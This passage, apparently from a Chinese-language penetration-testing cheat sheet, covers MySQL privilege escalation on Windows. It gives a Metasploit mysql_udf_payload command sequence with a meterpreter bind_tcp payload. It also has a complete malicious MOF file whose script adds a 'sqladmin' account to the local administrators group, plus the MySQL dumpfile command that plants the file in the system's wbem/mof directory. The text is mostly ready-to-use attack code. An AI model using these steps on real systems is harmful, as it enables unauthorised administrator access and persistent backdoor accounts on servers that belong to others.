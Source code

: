 - MSF 模块
    ```bash
    use exploit/multi/mysql/mysql_udf_payload
    set RHOSTS [ip]
    set USERNAME [user]
    set PASSWORD [pass]
    set target 0
    set payload windows/meterpreter/bind_tcp
    set RHOST [ip]
    set LPORT 4444
    exploit
    ```

**MOF 提权**

MOF提权的条件要求十分严苛:
1. windows 03 及以下版本
2. mysql 启动身份具有权限去读写 c:/windows/system32/wbem/mof 目录
3. secure-file-priv 参数不为 null

```ini
#pragma namespace("\\.\root\subscription")

instance of __EventFilter as
{
EventNamespace = "Root\Cimv2";
Name  = "filtP2";
Query = "Select * From __InstanceModificationEvent "
    "Where TargetInstance Isa \"Win32_LocalTime\" "
    "And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as
{
Name = "consPCSV2";
ScriptingEngine = "JScript";
ScriptText =
"var WSH = new ActiveXObject(\"WScript.Shell\") WSH.run(\"net.exe user sqladmin admin /add&&net.exe localgroup administrators sqladmin /add\")";
};

instance of __FilterToConsumerBinding
{
Consumer   = ;
Filter = ;
};
```
1. 保存为 1.mof,然后 mysql 执行:`select load_file('D:/wwwroot/1.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';`
2. mof 被执行的话,会帮我们添加一个叫 sqladmin 的用户.

**关于 Mof 提权的弊端**
